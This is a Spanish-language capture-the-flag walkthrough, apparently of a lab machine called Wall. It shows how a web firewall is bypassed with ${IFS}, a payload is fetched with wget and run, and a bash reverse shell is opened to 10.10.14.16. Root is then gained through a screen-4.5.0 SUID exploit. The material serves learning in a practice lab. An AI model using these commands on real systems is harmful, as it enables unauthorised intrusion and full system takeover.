 ----------------------------
# Part 4: Bypaseando un WAF 
```console
└─$ python3 ./exploit.py 'whoami' # -> [+] Código de estado: 200
└─$ python3 ./exploit.py 'curl http://10.10.14.16' # -> [+] Código de estado: 403
```
Unos comandos funcionan y otros no. Puede que haya un WAF (firewall web)  
- Probar a cambiar espacios por "${IFS}" (una varaible de entorno que representa un espacio)  

```console
└─$ python3 ./exploit.py 'wget${IFS}10.10.14.16' 
└─$ sudo python3 -m http.server 80 # -> 10.10.10.157 - - [08/Dec/2022 18:25:08] "GET / HTTP/1.1" 200 -
```
Con curl no recibia una peticion pero con wget si.  

```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'
```
```console
└─$ python3 ./exploit.py 'wget${IFS}10.10.14.16/index.html${IFS}-O${IFS}/tmp/shell;${IFS}bash${IFS}-i${IFS}/tmp/shell'
```
``` wget 10.10.14.16/index.html -O /tmp/shell; bash -i /tmp/shell ```

----------------------------
# Part 5: Accediendo al sistema

Con eso accedí al sistema. ```sudo nc -nlvp 443```. Hice ```which curl``` para ver si existia ese comando y no.  
Subi mi script de reconocimiento:  
- Archivos de configuración: /etc/centreon/conf.pm /etc/centreon/centreon.conf.php   
- SUIDS -> /bin/screen-4.5.0  

Para screen hay un exploit.  
```console
www-data@Wall:/tmp$ wget 10.10.14.16/41154.sh -O /tmp/screen.sh
www-data@Wall:/tmp$ chmod +x screen.sh
www-data@Wall:/tmp$ ./screen.sh
# whoami
root
# bash                         
root@Wall:/etc#
```
El exploit utiliza este sistema:  
```console
$:~ screen -D -m -L archivo echo "Hola Mundo"
$:~ ls -l bla.bla
-rw-rw---- 1 root root 6 Jan 24 19:58 archivo
$:~ cat archivo
Hola Mundo
```
 
